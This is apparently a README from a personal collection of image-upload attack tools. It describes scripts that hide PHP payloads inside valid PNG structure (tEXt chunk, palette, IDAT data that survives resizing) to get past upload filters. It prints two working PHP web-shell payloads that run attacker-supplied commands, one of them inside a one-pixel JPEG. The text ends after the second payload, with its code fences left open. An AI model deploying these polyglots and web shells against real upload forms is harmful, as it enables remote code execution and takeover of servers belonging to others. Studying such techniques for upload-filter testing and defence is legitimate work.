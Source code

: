 # Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicOnly.jpg**  
  A minimal, one-pixel JPEG image.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>
